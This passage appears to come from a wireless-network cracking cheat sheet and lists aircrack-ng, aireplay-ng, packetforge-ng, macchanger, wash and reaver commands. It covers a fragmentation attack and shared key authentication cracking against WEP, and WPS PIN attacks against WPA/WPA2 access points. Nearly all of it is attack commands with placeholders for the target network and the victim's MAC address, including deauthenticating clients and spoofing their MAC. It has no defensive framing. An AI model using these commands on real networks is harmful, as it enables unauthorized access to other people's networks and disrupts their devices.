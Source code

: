 When prompted, press 'y' to use packet; generates <replay_dec-.xor>

packetforge-ng -0 -a <BSSID> -h <OurMac> -k 255.255.255.255 -l 255.255.255.255 -y replay_dec-.xor -w <FileName2>

aireplay-ng -2 -r <FileName2> wlan0mon

aircrack-ng <FileName-01.cap>

### Method 4 - Fragmentation Attack
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

macchanger --show wlan0mon

aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon

aireplay-ng -5 -b <BSSID> -h <OurMac> wlan0mon

Press 'y' when prompted; generates <frag-.xor>

packetforge-ng -0 -a <BSSID> -h <OurMac> -k 255.255.255.255 -l 255.255.255.255 -y frag-.xor -w <FileName2>

aireplay-ng -2 -r <FileName2> wlan0mon

aircrack-ng <FileName-01.cap>

### Method 5 - SKA (Shared Key Authentication) Cracking
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

ifconfig wlan0mon down

macchanger --mac <VictimMac> wlan0mon

ifconfig wlan0mon up

aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon

aireplay-ng --deauth 1 -a <BSSID> -h <FakedMac> wlan0mon

aircrack-ng <FileName-01.cap>

#### WPA/WPA2 CRACKING
Method 1 - WPS Attack
Check for WPS-enabled APs

wash -i wlan0mon -C

Crack WPS

reaver -i wlan0mon -b <BSSID> -vv -S

Specific PIN attack (if known)

reaver -i wlan0mon -c <Channel> -b <BSSID> -p <PinCode> -vv -S
